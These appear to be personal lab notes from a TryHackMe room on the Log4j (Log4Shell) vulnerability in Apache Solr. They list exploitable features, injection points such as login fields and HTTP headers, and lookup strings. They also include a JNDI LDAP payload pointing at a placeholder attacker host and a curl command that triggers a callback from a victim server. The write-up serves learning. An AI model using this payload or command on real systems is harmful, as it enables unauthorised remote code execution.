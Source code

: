 # Log4j
https://tryhackme.com/room/solar

## What makes it dangerous?
1. easy to exploit
2. abundant
3. gives remote code execution

## What features are exploited in Log4j?
1. JNDI
2. Support for message lookups

## What are the apps affected so far?
https://github.com/YfryTchsGD/Log4jAttackSurface

## what are more resources to check on the vuln?
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
https://log4shell.huntress.com/
https://www.youtube.com/watch?v=7qoPDq41xhQ

## investigating the apache solr logs
`/vas/solr/logs/solr.log`


## by viewing the logs:
`2021-12-13 04:01:58.351 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0`
## we notice that there's an HTTP solr call in the path `/admin/cores` and the params are empty braces where user input can be injected and evaluated as code

## Example statments that can be evaluated:
- `${sys:os.name}`
- `${sys:user.name}`
- `${log4j:configParentLocation}`
- `${ENV:PATH}`
- `${ENV:HOSTNAME}`
- `${java:version}`

## the payload however leverages the JNDI (Java Naming & Directory Interface) which can access external resources
`{JNDI:LDAP://<ATTACKERCONTROLLEDHOST>}`

## Question is: what location can we use this payload?
## the answer is: ANYWHERE that's logged by log4j
- Input user/password login forms
- Data entry points in the application
- HTTP Headers like User-Agent, X-Forwarded-For or other headers

*In short: any place for user-supplied data*

## More information on JNDI Attack vector
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

## Checking if the vuln exists, we run a curl
`curl 'http://<VICTIM>:8983/solr/admin/cores?edelo=$\{jndi:ldap://<LHOST>:<LPORT>\}'`
## we get a connection back on our listening port

![Log4J Detection](Log4J-Detection.jpg)